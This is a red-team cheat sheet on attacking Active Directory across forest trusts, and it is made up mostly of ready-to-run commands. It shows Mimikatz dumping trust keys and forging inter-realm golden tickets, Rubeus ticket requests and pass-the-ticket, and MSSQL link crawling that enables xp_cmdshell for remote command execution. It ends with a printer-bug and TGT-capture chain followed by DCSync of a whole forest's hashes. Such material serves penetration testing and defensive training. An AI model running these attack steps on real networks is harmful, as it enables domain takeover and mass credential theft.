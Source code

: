 # Active Directory Cross Forest Attacks

## Cross Forest Attacks

### Trust Tickets

_What is this?: If we have Domain Admin rights on a Domain that has a Bidirectional Trust relationship with another forest we can get the Trust key and forge our own inter-realm TGT._

The access we will have will be limited to what our DA account is configured to have on the other Forest!

#### Using Mimikatz

```text
#Dump the trust key
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

#Forge an inter-realm TGT using the Golden Ticket attack
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:  
<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
<PathToSaveTheGoldenTicket>"'
```

**Tickets -&gt; .kirbi format**

Then ask for a TGS to the external Forest for any service using the inter-realm TGT and access the resource.

Using Rubeus:

```text
.\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt
```

### Abuse MSSQL Servers

* Enumerate MSSQL Instances: `Get-SQLInstanceDomain`
* Check Accessibility as current user: 

```text
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

* Gather Information about the instance: `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
* Abusing SQL Database Links: 

_What is this?: A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also work across Forest Trust!_

Check for existing Database Links:

```text
#PowerUpSQL:
Get-SQLServerLink -Instace <SPN> -Verbose

#MSSQL Query:
select * from master..sysservers
```

Then we can use queries to enumerate other links from the linked Database:

```text
#Manualy:
select * from openquery("LinkedDatabase", 'select * from master..sysservers')

#PowerUpSQL (Will Enum every link across Forests and Child Domain of the Forests):
Get-SQLServerLinkCrawl -Instance <SPN> -Verbose

#Then we can execute command on the machine's were the SQL Service runs using xp_cmdshell
#Or if it is disabled enable it:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "SPN"
```

Query execution:

```text
Get-SQLServerLinkCrawl -Instace <SPN> -Query "exec master..xp_cmdshell 'whoami'"
```

### Breaking Forest Trusts

_What is this?:  TL;DR  If we have a bidirectional trust with an external forest and we manage to compromise a machine on the local forest that has enabled unconstrained delegation \(DCs have this by default\), we can use the printer bug to force the DC of the external forest's root domain to authenticate to us. Then we can capture its TGT, inject it into memory, and DCsync to dump its hashes, giving us complete access over the whole forest._

Some tools that we can use are:

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [SpoolSample](https://github.com/leechristensen/SpoolSample)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)

#### Exploitation example

Start monitoring for TGTs with Rubeus:

```text
Rubeus.exe monitor /interval:5 /filteruser:target-dc$
```

Execute the printer bug to trigger the force authentication of the target DC to our machine

```text
SpoolSample.exe target-dc$.external.forest.local dc.compromised.domain.local
```

Get the base64 captured TGT from Rubeus and inject it into memory:

```text
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>
```

Dump the hashes of the target domain using Mimikatz:

```text
lsadump::dcsync /domain:external.forest.local /all
```

Detailed Articles:

* [Not A Security Boundary: Breaking Forest Trusts](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)

## References

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md\#domain-persistence" %}



